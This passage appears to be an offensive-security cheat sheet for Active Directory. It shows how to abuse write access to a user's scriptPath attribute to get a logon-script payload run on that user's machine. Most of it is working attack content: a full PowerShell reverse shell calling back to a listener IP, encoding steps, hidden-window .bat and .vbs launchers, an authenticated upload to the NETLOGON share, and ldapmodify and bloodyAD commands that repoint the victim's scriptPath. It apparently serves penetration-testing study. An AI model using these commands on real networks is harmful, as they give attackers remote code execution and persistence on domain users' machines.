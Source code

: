 #### NETLOGON create a .bat or .vbs file which runs a Powershell reverse shell

```bash
# Convert to UTF-16LE then b64 encoded
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "10.129.229.84"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'

# Within a .bat file
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTA <snip>

# Within a .vbs file
CreateObject("Wscript.shell").Run "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADI <snip>

# Upload file
smbclient //10.129.229.224/NETLOGON --directory EricsScripts -U john%'pass123' -c "put logonScript.bat"
```

#### Update users scriptPath to that payload.

```bash
# Set relative path to logon script
ldapmodify -H ldap://10.129.229.224 -x -D 'john@zencorp.local' -w 'pass132' -f logonScript.ldif

# Or with bloodyAD
bloodyAD --host "10.129.229.224" -d "zencorp.local" -u "john" -p 'pass123' set object eric scriptPath -v 'EricsScripts\logonScript.bat'

# Check if update the attribute
bloodyAD --host "10.129.229.224" -d "zencorp.local" -u "john" -p 'pass123' get object eric --attr scriptPath
```

### <mark style="color:yellow;">Abusing Write scriptPath from Windows</mark>

```powershell
# Check NETLOGON share
ls $env:LOGONSERVER\NETLOGON

# Check Permssions with icacls
icacls $env:LOGONSERVER\NETLOGON\JohnsScripts

# Or use ScriptSentry
.\Invoke-ScriptSentry.ps1
```
